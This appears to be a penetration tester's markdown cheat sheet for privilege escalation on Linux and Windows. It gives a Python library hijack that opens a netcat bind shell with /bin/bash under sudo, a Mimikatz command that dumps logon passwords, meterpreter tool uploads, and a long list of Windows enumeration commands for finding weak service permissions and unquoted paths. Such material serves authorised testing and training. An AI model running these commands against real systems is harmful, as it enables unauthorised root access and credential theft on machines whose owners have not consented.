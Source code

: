 # Priv Esc

* [windows-privesc check](https://github.com/pentestmonkey/windows-privesc-check)
* [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
 
See https://github.com/diego-treitos/linux-smart-enumeration.

## Copying files to the target

```
python -m SimpleHTTPServer 8080
```

## Hijack root python scripts

```
$ cat shutil.py 
import os
os.system("nc -lvp 9001 -e /bin/bash")
$ sudo -E PYTHONPATH=$(pwd) script-you-can-run-that-imports-shutil.py
$ echo 'whoami' | nc localhost 9001
```

## lxd group rootage

See https://www.hackingarticles.in/lxd-privilege-escalation/.

## Compiling binaries when compiler tools aren't available

```
sudo gcc -Wall -o jj jj.c -march=i686 -m32 -Wl,--hash-style=both
```

```
sudo apt-get install gcc-multilib g++-multilib
sudo apt install g++-i686-linux-gnu
sudo apt install gcc-mingw-w64-i686
sudo apt install mingw-w64-i686-dev
```

* See https://opensource.com/article/19/7/cross-compiling-gcc.
* See https://github.com/dockcross/dockcross.

## Windows

* `whoami`
* `net user username`
* `net user`
* `net localgroup Administrators`
* `hostname`
* `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
* `tasklist /SVC`
* `ipconfig /all`
* `route print`
* `netstat -ano`
* `netsh advfirewall show currentprofile`
* `netsh advfirewall firewall show rule name=all`
* `schtasks /query /fo LIST /v` (`schtasks /query /fo LIST /v | findstr TaskName | findstr /V \Microsoft\`)
* `wmic product get name, version, vendor`
* `wmic qfe get /all`
* (meterpreter) `upload /home/kali/tools/sysinternals/accesschk.exe C:\\PATH\\accesschk.exe`
* `accesschk.exe -uws "Everyone" "C:\Program Files"` (`accesschk -accepteula`), or use:
* (PS) `Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?($_.AccessToString -match "Everyone\sAllow\s\sModify")`
* `mountvol`
* (PS) `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
* (PS) `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*searchterm*"}` (for specific details on a driver)
* `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
* `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
* `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
* `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
* (meterpreter) `upload /home/kali/tools/windows-privesc-check2.exe C:\\PATH\\windows-privesc-check2.exe`
* `windows-privesc-check2.exe --dump -G`
* (PS) `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}` (`powershell -c "Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.PathName -like '*Program Files*'}"`)
* `icacls "C:\Program Files\some.exe"`
* `wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """` (all services with unquoted paths)
* `dir unattend.xml /s` `dir sysprep.xml /s` `dir sysprep.ini /s`
```
whoami /all
```

* See http://www.fuzzysecurity.com/tutorials/16.html

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```
